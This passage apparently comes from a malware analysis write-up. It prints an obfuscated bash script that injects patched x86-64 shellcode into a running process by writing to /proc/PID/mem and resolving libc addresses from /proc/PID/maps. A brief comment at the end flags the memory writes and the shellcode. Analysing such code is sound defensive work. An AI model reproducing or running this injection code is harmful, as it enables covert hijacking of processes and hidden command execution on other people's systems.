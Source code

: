 ```bash
    echo $code | sed "s/$from/$to/g"
}

xeiCh4xi() {
    echo "$1" | base64 -d | gzip -d
}

ia5Uuboh() {
    go7uH1yu="$1"

    ih9Ea1se=$(grep -E "/libc.*so$" "/proc/$go7uH1yu/maps" | head -n 1 | tr -s ' ')
    Teixoo1Z=$((0x$(cut -d '-' -f1 <<< "$ih9Ea1se")))
    cu1eiSe9=$(cut -d ' ' -f6 <<< "$ih9Ea1se")
    eo0oMaeL=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAA4uPTytKTY3PyM/PBgDwEjq3CwAAAA==))))
    de0fie1O=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAAyuuLC5JzQUAixFNyQYAAAA=))))
    EeGie9qu=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAA0srSk0FAMjBLk0EAAAA))))
    Eeko2juZ=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAA8tNzMnJT44vLU5MykmNL86sSgUA3kc6ChIAAAA=))))
    Iek6Joyo=$((0x$(grep -E "/libc.*so$" "/proc/$go7uH1yu/maps" | grep 'r-xp' | head -n 1 | tr -s ' ' | cut -d ' ' -f1 | cut -d '-' -f2)))

    HeiSuC5o='\x48\xb8\x41\x41\x41\x41\x41\x41\x41\x41\x41\x55\x49\xbd\x43\x43\x43\x43\x43\x43\x43\x43\x41\x54\x49\x89\xfc\x55\x53\x4c\x89\xe3\x52\xff\xd0\x48\x89\xc5\x48\xb8\x44\x44\x44\x44\x44\x44\x44\x44\x48\xc7\x00\x00\x00\x00\x00\x48\x83\xfd\x05\x76\x61\x80\x3b\x63\x75\x54\x80\x7b\x01\x6d\x75\x4e\x80\x7b\x02\x64\x75\x48\x80\x7b\x03\x7b\x75\x42\xc6\x03\x00\x48\x8d\x7b\x04\x48\x8d\x55\xfc\x48\x89\xf8\x8a\x08\x48\x89\xc3\x48\x89\xd5\x48\x8d\x40\x01\x48\x8d\x52\xff\x8d\x71\xe0\x40\x80\xfe\x5e\x77\x1b\x80\xf9\x7d\x75\x08\xc6\x03\x00\x41\xff\xd5\xeb\x0e\x48\x83\xfa\x01\x75\xd4\xbd\x01\x00\x00\x00\x48\x89\xc3\x48\xff\xc3\x48\xff\xcd\xeb\x99\x48\xb8\x42\x42\x42\x42\x42\x42\x42\x42\x4c\x89\xe7\xff\xd0\x48\xb8\x55\x55\x55\x55\x55\x55\x55\x55\x48\xa3\x44\x44\x44\x44\x44\x44\x44\x44\x58\x5b\x5d\x41\x5c\x41\x5d\xc3'
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x41\x41\x41\x41\x41\x41\x41\x41' $(roth8Kai $Eeko2juZ))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x42\x42\x42\x42\x42\x42\x42\x42' $(roth8Kai $EeGie9qu))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x43\x43\x43\x43\x43\x43\x43\x43' $(roth8Kai $de0fie1O))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x44\x44\x44\x44\x44\x44\x44\x44' $(roth8Kai $eo0oMaeL))
    Que2vah0=$(echo -ne $HeiSuC5o | wc -c)
    Thee6ahB=$(($Iek6Joyo - $Que2vah0))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x55\x55\x55\x55\x55\x55\x55\x55' $(roth8Kai $Thee6ahB))

    QueSh8yi $go7uH1yu $Thee6ahB $HeiSuC5o
    QueSh8yi $go7uH1yu $eo0oMaeL $(roth8Kai $Thee6ahB)
}

if [ $# -ne 1  ] || [ ! -e "/proc/$1" ] ; then
    exit 42
fi

ia5Uuboh $1
```
The function names look obfuscated, making analysis a little bit harder. But even the way that it is, some strings and commands smell like memory fiddling (e.g. function *QueSh8yi* using dd to write into /proc/$1/mem). There also seems to be shellcode inside the script (*HeiSuC5o*).
